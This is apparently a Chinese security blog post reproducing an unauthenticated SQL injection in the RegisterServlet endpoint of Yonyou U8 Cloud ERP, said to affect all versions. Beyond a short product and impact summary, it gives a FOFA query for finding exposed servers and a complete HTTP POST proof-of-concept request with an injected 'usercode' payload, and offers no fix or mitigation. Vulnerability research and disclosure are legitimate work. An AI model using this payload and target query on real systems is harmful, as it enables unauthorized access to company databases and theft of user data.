

# 用友U8 Cloud RegisterServlet SQL注入漏洞复现

### 0x01 产品简介

  用友U8 Cloud是用友推出的新一代云ERP，主要聚焦成长型、创新型企业，提供企业级云ERP整体解决方案。

### 0x02 漏洞概述

  用友U8 Cloud  RegisterServlet接口处存在SQL注入漏洞，未授权的攻击者可通过此漏洞获取数据库权限，从而盗取用户数据，造成用户信息泄露。

### 0x03 影响范围

 所有版本

### 0x04 复现环境

FOFA：app="用友-U8-Cloud"



### 0x05 漏洞复现 

PoC

```cobol
POST /servlet/RegisterServlet HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1

usercode=1' and substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123')),3,32)>0--
```

查询123的MD5值
